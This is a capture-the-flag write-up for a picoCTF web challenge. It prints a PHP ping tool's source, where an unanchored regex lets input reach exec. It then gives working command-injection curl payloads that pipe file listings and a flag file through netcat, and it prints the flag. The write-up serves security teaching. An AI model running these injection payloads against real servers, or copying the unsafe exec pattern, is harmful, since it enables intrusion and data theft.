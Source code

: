 # Problem
One of my school mate developed an alive monitoring tool. Can you get a flag from [http://2018shell1.picoctf.com:56517](http://2018shell1.picoctf.com:56517)?

## Hints:
This application uses the validation check both on the client side and on the server side, but the server check seems 
to be inappropriate.

You should be able to listen through the shell on the server.

## Solution:
Lets view the website:

![screenshot 1](./screenshot-1.png)

```html
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

We can see that the IP check in the client side is done using JS ```[match](https://www.w3schools.com/jsref/jsref_match.asp)``` function. This functions returns only the matching part.

In the other hand, the server side check is done using PHP ```[preg_match](http://php.net/manual/en/function.preg-match.php)``` which just checks if there is a match and if so, the entire input string is being passed to ```[exec](http://php.net/manual/en/function.exec.php)```. If we pass/skip the client side check, we can inject code...

Lets use some [code injection](https://en.wikipedia.org/wiki/Code_injection):

* Listen on the server to some unused port:
* * ```bash
	nc -l 12345
	```
* Send malicious request to the website:
  * ```bash
    curl -d "ip=127.0.0.1;ls | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
    ```
* Look at the output:
  * ```
    index.php
	index.txt
	super-secret-1365-flag.txt
	xinet_startup.sh
	```
* Get the flag:
  * ```bash
  	curl -d "ip=127.0.0.1;cat super-secret-1365-flag.txt | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
  	```
  * ```bash
    Here is your flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
    ```

Nice.

Flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
